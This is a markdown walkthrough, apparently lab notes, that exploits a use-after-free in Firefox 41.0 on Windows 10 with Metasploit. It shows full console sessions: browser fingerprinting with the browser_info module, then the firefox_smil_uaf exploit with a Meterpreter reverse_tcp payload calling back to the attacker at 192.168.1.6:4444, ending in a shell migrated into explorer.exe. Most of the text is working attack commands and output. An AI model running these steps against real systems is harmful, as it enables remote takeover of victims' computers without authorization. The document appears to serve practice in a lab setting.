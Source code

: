 - We are using benefit of vulnerable component "nsSMILTimeContainer::NotifyTimeChange()", which is a specific function or method within the code of Mozilla Firefox. This function is responsible for handling changes in timing related to SMIL.
- SMIL(Synchronized Multimedia integration Language) is a markup language used to describe multimedia presentations, including animations, in web pages.
- The vulnerability is called [[Use-after-free]]
**Note - Before we begine download 41.0 version of Mozilla Firefox.

## Gathering browser information
```python
┌──(hyok㉿kali)-[~]
└─$ msfconsole -q                  
msf6 > use auxiliary/gather/browser_info
msf6 auxiliary(gather/browser_info) > set SRVHOST 192.168.216.5
SRVHOST => 192.168.216.5
msf6 auxiliary(gather/browser_info) > set SRVPORT 80
SRVPORT => 80
msf6 auxiliary(gather/browser_info) > set URIPATH /
URIPATH => /
msf6 auxiliary(gather/browser_info) > run
msf6 auxiliary(gather/browser_info) > run
[*] Auxiliary module running as background job 1.
msf6 auxiliary(gather/browser_info) > 
[-] Target 192.168.1.3 has requested an unknown path: /favicon.ico
[+] 192.168.1.3 - We have found the following interesting information:
[*] 192.168.1.3 - source = Browser allows JavaScript
[*] 192.168.1.3 - ua_name = Firefox
[*] 192.168.1.3 - ua_ver = 41.0
[*] 192.168.1.3 - arch = x86
[*] 192.168.1.3 - os_name = Windows 10
[*] 192.168.1.3 - language = en-US,en;q=0.5
[-] Target 192.168.1.3 has requested an unknown path: /favicon.ico
```
- From above, we see that victim is running firefox version 41.0.
- From version of firefox, we clearly say that we can use an exploit on firefox `nsSMILTimeContainer::NotifyTimeChange()` with the RCE exploit module.

## Exploiting a windows 10
```python
msf6 > use exploit/windows/browser/firefox_smil_uaf
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
 msf6 exploit(windows/browser/firefox_smil_uaf) > set SRVHOST 192.168.1.6
SRVHOST => 192.168.1.6
msf6 exploit(windows/browser/firefox_smil_uaf) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(windows/browser/firefox_smil_uaf) > set URIPATH /
URIPATH => /
msf6 exploit(windows/browser/firefox_smil_uaf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/browser/firefox_smil_uaf) > set LHOST 192.168.1.6
LHOST => 192.168.1.6
msf6 exploit(windows/browser/firefox_smil_uaf) > exploit
msf6 exploit(windows/browser/firefox_smil_uaf) > [*] Using URL: http://192.168.1.6/
[*] Server started.
[*] 192.168.1.3      firefox_smil_uaf - Gathering target information for 192.168.1.3
[*] 192.168.1.3      firefox_smil_uaf - Sending HTML response to 192.168.1.3
[*] 192.168.1.3      firefox_smil_uaf - Got request: /UzchwB/
[*] 192.168.1.3      firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:41.0) Gecko/20100101 Firefox/41.0
[*] 192.168.1.3      firefox_smil_uaf - Sending exploit HTML ...
[*] 192.168.1.3      firefox_smil_uaf - Got request: /UzchwB/worker.js
[*] 192.168.1.3      firefox_smil_uaf - From: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:41.0) Gecko/20100101 Firefox/41.0
[*] 192.168.1.3      firefox_smil_uaf - Sending worker thread Javascript ...
[*] Sending stage (175686 bytes) to 192.168.1.3
[*] Session ID 1 (192.168.1.6:4444 -> 192.168.1.3:55785) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is firefox.exe (5336) as: DESKTOP-MKSKBCC\Madfo
[*] Session has User level rights.
[*] Will attempt to migrate to a User level process.
[*] Trying explorer.exe (3484)
[+] Successfully migrated to Explorer.EXE (3484) as: DESKTOP-MKSKBCC\Madfo
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.3:55785) at 2023-04-12 16:07:01 +0530

msf6 exploit(windows/browser/firefox_smil_uaf) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  1         meterpreter x64/windows  DESKTOP-MKSKBCC\Madfo @ DESKTOP-MKSKBCC  192.168.1.6:4444 -> 192.168.1.3:55785 (192.168.1.3)

msf6 exploit(windows/browser/firefox_smil_uaf) > sessions 1
[*] Starting interaction with 1...

meterpreter > 
```
- This module is specifically designed to exploit a use-after-free vulnerability in Mozilla Firefox on Windows operating systems.
- it targets the `nsSMILTimeContainer::NotifyTimeChange()` function.
- This module attempts to trigger a situation where Firefox continues to use a freed memory address, allowing an attacker to gain control of the vulnerable system or execute arbitrary code within the context of the Firefox process.

**Note
1. When the victim accesses the URL(http://192.168.1.6), we should successfully exploit the use-afterfree vulnerability and get a new session running in the context of the user that accesses the URL.
2. Always make sure your system is connected to internet(In virualbox Network > briged).
3. Note that, to prevent us from losing the session if the user closes the browser, this module uses the post/windows/manage/priv_migrate post-exploitation module to migrate to the explorer.exe process.